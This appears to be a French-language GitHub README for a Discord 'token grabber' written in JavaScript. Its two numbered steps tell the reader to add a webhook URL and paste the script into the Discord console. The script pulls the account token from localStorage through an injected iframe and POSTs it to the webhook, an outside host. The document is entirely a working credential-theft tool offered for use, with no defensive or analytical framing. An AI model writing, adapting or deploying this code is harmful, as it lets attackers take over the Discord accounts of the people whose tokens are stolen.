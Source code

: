# Token-Grabber-Js
Script Token Grabber en NodeJS

1). Complete le script avec un webhook
2). Entrer le script dans la console de discord

location.reload();
var webhook = "";
var token = document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token;
var request = new XMLHttpRequest();
request.open("POST", webhook);
request.setRequestHeader('content-type', 'application/json');
request.send(JSON.stringify({"content": token}));
